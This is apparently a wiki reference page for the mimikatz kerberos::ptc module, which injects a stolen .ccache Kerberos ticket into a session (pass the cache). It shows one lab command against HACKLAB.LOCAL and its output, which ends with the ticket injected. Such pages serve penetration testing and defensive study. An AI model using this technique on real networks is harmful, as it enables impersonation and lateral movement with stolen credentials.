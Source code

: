 # ptc

`kerberos::ptc` can be used to [pass the cache](https://www.thehacker.recipes/ad/movement/kerberos/ptc). This is similar to [`kerberos::ptt`](ptt.md) that does pass the ticket but is different in the sense that the ticket used is a `.ccache` ticket instead of a `.kirbi` one.

```
mimikatz # kerberos::ptc m3g9tr0n@HACKLAB.LOCAL_krbtgt~HACKLAB.LOCAL@HACKLAB.LOCAL.ccache

Principal : (01) : m3g9tr0n ; @ HACKLAB.LOCAL

Data 0
           Start/End/MaxRenew: 17/11/2021 21:48:12 ; 18/11/2021 07:48:12 ; 24/11/2021 12:03:10
           Service Name (02) : krbtgt ; HACKLAB.LOCAL ; @ HACKLAB.LOCAL
           Target Name  (02) : krbtgt ; HACKLAB.LOCAL ; @ HACKLAB.LOCAL
           Client Name  (01) : m3g9tr0n ; @ HACKLAB.LOCAL
           Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             0000000000000000000000000000000000000000000000000000000000000000
           Ticket            : 0x00000000 - null              ; kvno = 2        [...]
           * Injecting ticket : OK
```
